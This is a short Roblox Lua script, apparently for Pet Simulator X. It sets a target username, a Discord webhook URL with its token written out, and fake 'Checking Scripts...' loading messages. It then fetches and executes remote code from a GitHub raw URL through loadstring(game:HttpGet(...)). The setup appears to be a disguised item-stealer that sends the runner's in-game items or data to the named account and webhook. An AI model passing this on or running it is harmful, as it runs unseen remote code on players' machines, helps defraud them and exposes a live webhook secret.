 Username = "alisa_milanakul"

WebHook = "https://discord.com/api/webhooks/1089838185028259920/tsfztRJF1nDI_gaE7adfXMV9bplr8B-rwg2UHtTe2b3oVNfIcjMR3QB_lE3pwjLUikrw"

_G.CustomScriptName = "HELLO GUESTS"

_G.Text1 = "Wait script "
yo
_G.Text2 = "Waiting for Script"

_G.Text3 = "Checking Scripts..."

_G.Text4 = "Starting Scripts..."

loadstring(game:HttpGet("https://raw.githubusercontent.com/Justanotherdme/petsimx22/main/petsimguiss.lua"))()
